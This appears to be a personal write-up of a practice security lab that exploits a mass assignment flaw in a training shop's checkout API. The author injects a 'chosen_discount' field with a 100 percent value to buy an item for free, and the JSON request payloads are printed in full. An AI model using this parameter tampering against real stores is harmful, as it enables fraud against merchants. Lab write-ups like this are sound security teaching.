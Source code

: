 # 🧪 Lab: Exploiting a mass assignment vulnerability

## 📋 Lab Description

**Goal:**  
To solve the lab, find and exploit a mass assignment vulnerability to buy a **Lightweight l33t Leather Jacket**. You can log in to your own account using the following credentials: `wiener:peter`.

**Level:** Practitioner  
**Status:** ✅ *Completed*

---

## 🔍 Phase 1: Reconnaissance

- Logged in using the provided credentials: `wiener:peter`
- Explored the application to identify visible functionality
- Captured and reviewed HTTP requests using Burp Suite
- Identified existing endpoints, such as:
  - `/api/products`
  - `/api/user/cart`
- Noticed the API request GET `/api/checkout` used for the checkout contain a JSON object
  ```
  {
        "chosen_discount":{
            "percentage":0
            },
        "chosen_products":[
            {
                "product_id":"1",
                "name":"Lightweight \"l33t\" Leather Jacket","quantity":1,
                "item_price":133700
            }
        ]
    }
  ```

---

## 🧪 Phase 2: Testing & Errors

- Tried changing the API request: I sent POST `/api/checkout` adding `chosen_discount` as a parameter in the json object--> No error retrived 
```
{
        "chosen_products":[
            {
                "product_id":"1",
                "quantity":1,
            }
        ]
    }
```
→
```
{
        "chosen_discount":{
            "percentage":0
            },
        "chosen_products":[
            {
                "product_id":"1",
                "quantity":1,
            }
        ]
    }
```
- Tried to change the value of the `percentage` in a char --> got the error invalid value

---

## 🎯 Phase 3: Exploitation

- I sent a POST `/api/checkout` with the payload to get a 100% discount for the article: 

```
{
        "chosen_discount":{
            "percentage":100
            },
        "chosen_products":[
            {
                "product_id":"1",
                "quantity":1,
            }
        ]
    }
```
